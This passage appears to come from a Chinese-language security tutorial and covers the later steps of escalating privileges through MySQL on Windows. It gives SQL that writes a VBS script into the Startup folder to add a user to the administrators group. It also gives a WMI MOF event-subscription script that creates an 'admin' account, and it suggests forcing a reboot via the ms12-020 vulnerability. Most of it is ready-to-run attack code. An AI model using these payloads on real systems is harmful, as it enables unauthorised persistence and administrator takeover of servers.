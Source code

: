 4.3 在表中插入内容  

```
select \* from a into outfile "C://ProgramData//Administrator//Windows//Start Menu//Programs//Startup//a.vbs";
```

4.4 将表输出为一个 VBS 的脚本文件

```
insert into a values ("set wshshell=createobject (""wscript.shell"")");
insert into a values ("b=wshshell.run (""cmd.exe /c net localgroup administrators test123 /add"",0)");
```

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNbiaY7hWWXFuN62eMa5tf0TjF81RmWS1tCgoYcus1LoRWAwJOL9w1xosHB046nZuXOAC5kQmVmUIGA/640?wx_fmt=png)

  
4.5 重启计算机，创建用户成功。实际情况可以利用服务器漏洞，如 ms12-020  
![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNbiaY7hWWXFuN62eMa5tf0TjpgDxWCJKJzf8AZHU6qjAicSnKSbW16iaiczw6xXCfhAfUVXmKmosqjkvQ/640?wx_fmt=png)

  
4.6 二次执行进行提权  
这里 test123 用户不是 administrators 组用户，使用相同的办法通过 mysql 命令重新写入 vbs 脚本。脚本内容为：  

```
\# 提权mof脚本
#pragma namespace("\\\\\\\\.\\\\root\\\\subscription")
#pragma namespace("\\\\\\\\.\\\\root\\\\subscription") 
instance of \_\_EventFilter as $EventFilter 
{ 
    EventNamespace = "Root\\\\Cimv2"; 
    Name  = "filtP2"; 
    Query = "Select \* From \_\_InstanceModificationEvent " 
            "Where TargetInstance Isa \\"Win32\_LocalTime\\" " 
            "And TargetInstance.Second = 5"; 
    QueryLanguage = "WQL"; 
};
instance of ActiveScriptEventConsumer as $Consumer 
{ 
    Name = "consPCSV2"; 
    ScriptingEngine = "JScript"; 
    ScriptText = 
    "var WSH = new ActiveXObject(\\"WScript.Shell\\")\\nWSH.run(\\"net.exe user admin admin /add\\")"; 
}; 
instance of \_\_FilterToConsumerBinding 
{ 
    Consumer   = $Consumer; 
    Filter = $EventFilter; 
};
```

然后加入启动项，再次重启计算机，此命令被执行，完成提权：  
![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNbiaY7hWWXFuN62eMa5tf0TjCg53OuL2NB2jTD5nm84vnWiauxFokA08LFjWt8bTkTPd7he6zTokZUQ/640?wx_fmt=png)  
